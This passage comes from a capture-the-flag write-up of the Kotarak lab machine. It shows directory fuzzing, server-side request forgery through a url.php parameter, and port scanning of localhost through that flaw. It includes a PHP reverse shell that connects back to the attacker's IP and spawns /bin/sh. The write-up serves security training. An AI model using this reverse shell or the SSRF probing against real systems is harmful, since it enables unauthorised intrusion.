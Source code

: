 ```bash
10.10.10.55:8080/manager/html
```

![image.png]({{ site.baseurl }}/assets/kotarak/image%206.png)

We get told that JMX interfaces are not protected against CSRF.

Let’s fuzz:

```bash
feroxbuster -u http://10.10.10.55:60000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404

200      GET        2l        0w        2c http://10.10.10.55:60000/url.php
200      GET       76l      130w     1169c http://10.10.10.55:60000/

```

Nothing.

Let’s try putting our attack box’s IP:

```bash
10.10.16.7
```

![image.png]({{ site.baseurl }}/assets/kotarak/image%207.png)

Let’s see if it can execute php code, a reverse shell we are hosting:

```bash
<?php
$sock=fsockopen("10.10.16.7",4444);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

```

![image.png]({{ site.baseurl }}/assets/kotarak/image%208.png)

Did not work.

Let’s also try if the web can query itself on localhost:

```bash
localhost:8080
```

It works. Let’s try fuzzing for all the ports and see if there are any other web pages hosted internally. 

```bash
seq 1 65535 > numbers.txt

ffuf -w numbers.txt -u http://10.10.10.55:60000/url.php?path=localhost%3aFUZZ -fs 2

110                     [Status: 200, Size: 187, Words: 16, Lines: 18, Duration: 244ms]
22                      [Status: 200, Size: 62, Words: 3, Lines: 5, Duration: 471ms]
200                     [Status: 200, Size: 22, Words: 2, Lines: 4, Duration: 970ms]
320                     [Status: 200, Size: 1232, Words: 93, Lines: 27, Duration: 652ms]
90                      [Status: 200, Size: 156, Words: 10, Lines: 12, Duration: 2308ms]
888                     [Status: 200, Size: 3955, Words: 449, Lines: 79, Duration: 472ms]
3306                    [Status: 200, Size: 123, Words: 5, Lines: 3, Duration: 238ms]
8080                    [Status: 200, Size: 994, Words: 47, Lines: 3, Duration: 24ms]
60000                   [Status: 200, Size: 1171, Words: 226, Lines: 79, Duration: 25ms]
```
